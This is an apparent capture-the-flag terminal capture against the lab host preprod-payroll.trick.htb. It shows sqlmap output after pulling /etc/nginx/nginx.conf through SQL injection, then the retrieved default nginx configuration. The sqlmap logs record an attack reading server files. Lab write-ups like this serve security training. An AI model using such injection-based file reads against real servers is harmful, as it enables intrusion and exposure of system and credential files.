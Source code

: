 ```powershell
[00:17:53] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf' and the remote file '/etc/nginx/nginx.conf' have the same size (1482 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf (same file)

[00:17:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ *************
[*] ending @ *************

root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
worker_connections 768;
# multi_accept on;
http {

## Basic Settings

sendfile on;
tcp_nopush on;
tcp_nodelay on;
keepalive_timeout 65;
types_hash_max_size 2048;
# server_tokens off;
# server_names_hash_bucket_size 64;
# server_name_in_redirect off;

include /etc/nginx/mime.types;
default_type application/octet-stream;
# SSL Settings
ssl_protocols TLSv1 TLSv1.1 TLSv1.2; # Dropping SSLv3, ref: POODLE
ssl_prefer_server_ciphers on;
# Logging Settings
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
# Gzip Settings
gzip on;
# gzip_vary on;
# gzip_proxied any;
# gzip_comp_level 6;
# gzip_buffers 16 8k;
# gzip_http_version 1.1;
# gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;
# Virtual Host Configs
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
#mail {
#	# See sample authentication script at:
#	# http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
#
#	# auth_http localhost/auth.php;
#	# pop3_capabilities "TOP" "USER";
#	# imap_capabilities "IMAP4rev1" "UIDPLUS";
#
```